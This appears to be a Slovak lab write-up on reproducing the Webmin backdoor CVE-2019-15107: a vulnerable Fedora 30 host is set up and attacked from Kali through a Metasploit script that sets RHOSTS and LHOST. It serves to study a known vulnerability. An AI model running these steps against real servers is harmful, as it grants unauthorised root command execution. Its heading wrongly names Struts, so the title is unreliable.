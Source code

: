 # Otestovanie zraniteľnosti Struts na distribúciu Fedora 30

Webový ovládací panel Webmin slúži na správu systému Unix. Eliminuje potrebu ručne upravovať konfiguračné súbory
systému Unix, ako napríklad /etc/passwd, a umožňuje spravovanie systému z konzoly alebo vzdialene. Preto sa 
používa vo väčšine organizácií, kde sa používajú unixové servery. Útok CVE-2019-15107 fungoval ako *backdoor*, 
čiže bol zámerne umiestnený v roku 2018 a nájdený počas bezpečnostnej konferencie DEF CON 2019, keď výskumníci 
narazili na škodlivý kód.

Každý, kto vedel o existencii zraniteľnosti, mohol využiť *backdoor*, čím mal možnosť vykonávať príkazy 
s privilégiami *root*. Podľa Jamieho Camerona, autora webového ovládacieho panela Webmin, bol 
*backdoor* vložený do verzie 1.890. Následne boli nájdené ďalšie dve verzie s takmer identickým 
kódom, konkrétne verzie 1.900 a 1.920. Do skriptu `password\_change.cgi` bola pridaná zraniteľnosť. 

## Konfigurácia distribúcie Fedora 30

Pre vytvorenie zraniteľného systému sme stiahli zraniteľnú verziu
[ovládacieho panelu Webmin](https://sourceforge.net/projects/webadmin/files/webmin/1.890/) a nainštalovali ju. Následne
sme zapli server.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v kozole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.42`. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.43` a spustiť útok. 
